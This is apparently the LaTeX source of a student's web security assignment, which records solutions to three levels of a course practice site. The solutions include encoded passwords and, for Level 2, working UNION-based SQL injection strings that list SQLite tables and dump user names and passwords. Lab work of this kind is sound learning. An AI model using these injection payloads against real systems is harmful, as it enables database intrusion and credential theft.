\documentclass[a4paper]{article}

\usepackage[english]{babel}
\usepackage{amsmath}
\usepackage{float}
\usepackage{amssymb}
\usepackage{dsfont}
\usepackage{graphicx}
\usepackage{listings}
\usepackage[hyphens]{url}
\usepackage{titling}
\usepackage{varwidth}
\usepackage{hyperref}
\usepackage{color} %red, green, blue, yellow, cyan, magenta, black, white
\definecolor{mygreen}{RGB}{28,172,0} % color values Red, Green, Blue
\definecolor{mylilas}{RGB}{170,55,241}



\usepackage{geometry}
 \geometry{
 a4paper,
 total={165mm,257mm},
 left=20mm,
 top=20mm,
 }

\title{Web Security\\Assignment 3}
\author{
  Christoph Schmidl\\ s4226887\\ Data Science\\      \texttt{c.schmidl@student.ru.nl}
}
\date{\today}

\begin{document}
\maketitle

Github repository: \url{https://github.com/ChristophSchmidl/web-security/}

\begin{enumerate}

\item Do the following three exercises on \url{http://websecurity.cs.ru.nl/}:

	\begin{itemize}
		\item Level 0\\
		\textbf{Solution:}\\
		
		Base64Password: TkdGbFpqRmxNbUV6		
		
		\begin{figure}[H]
	    \centering
  	    
\includegraphics[width=0.8\textwidth]{img/level_0.PNG}
	    \end{figure}			
		
		\item Level 1\\
		\textbf{Solution:}\\
		
		Piet:NTY5M2IyYTc2
		
		\begin{figure}[H]
	    \centering
  	    
\includegraphics[width=0.8\textwidth]{img/level_1.PNG}
	    \end{figure}		
		
		
		\item Level 2\\
		\textbf{Solution:}\\

		input=1+Union+ALL+SELECT+1,2,3,name+from+sqlite\_master\\
		the users table became OTg5ZmMyZWM1 table\\
		input=1+Union+ALL+SELECT+1,id,name,password+from+OTg5ZmMyZWM1			
		
		\begin{figure}[H]
	    \centering
  	    
\includegraphics[width=0.8\textwidth]{img/level_2.PNG}
	    \end{figure}	
		
		
	\end{itemize}


\end{enumerate}

\end{document}